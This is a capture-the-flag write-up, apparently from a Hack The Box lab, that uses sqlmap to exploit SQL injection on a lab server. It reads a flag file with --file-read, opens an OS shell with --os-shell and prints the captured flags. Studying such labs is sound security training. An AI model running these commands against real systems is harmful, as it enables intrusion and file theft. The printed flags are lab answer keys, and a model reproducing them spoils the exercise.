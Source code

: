 ## Challenge 1

Try to use SQLMap to read the file "/var/www/html/flag.txt". 

## Solution 1

The page gives us this URL:

```url
http://94.237.55.96:57458/?id=1
```

Let's first check if we have DBA:

```sh
python3 sqlmap.py -u "http://94.237.55.96:57458/?id=1" --is-dba
```

And the response is `current user is DBA: True`.

Now let's try to read the file.

```sh
python3 sqlmap.py -u "http://94.237.55.96:57458/?id=1" --file-read="/var/www/html/flag.txt"
```

And it tells me that:

```sh
files saved to [1]:
[*] /home/hb/.local/share/sqlmap/output/94.237.55.96/files/_var_www_html_flag.txt (same file)
```

and I read the file using cat:

```sh
cat /home/hb/.local/share/sqlmap/output/94.237.55.96/files/_var_www_html_flag.txt 
```
which gives me the flag `HTB{5up3r_u53r5_4r3_p0w3rful!}`.

## Challenge 2

Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host. 

## Solution 2

Since we have DBA I will execute this command to get the OS Command Exectution:

```sh
python3 sqlmap.py -u "http://94.237.55.96:57458/?id=1" --os-shell --technique=E
```

This provided me with the shell, and i moved around the host to search for the flag.

When I executed:

```sh
ls ../../../
``` 

it gave me:
```sh
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

So I read the flag.txt:

```sh
cat ../../../flag.txt
```

and it is:

```sh
HTB{n3v3r_run_db_45_db4}
```

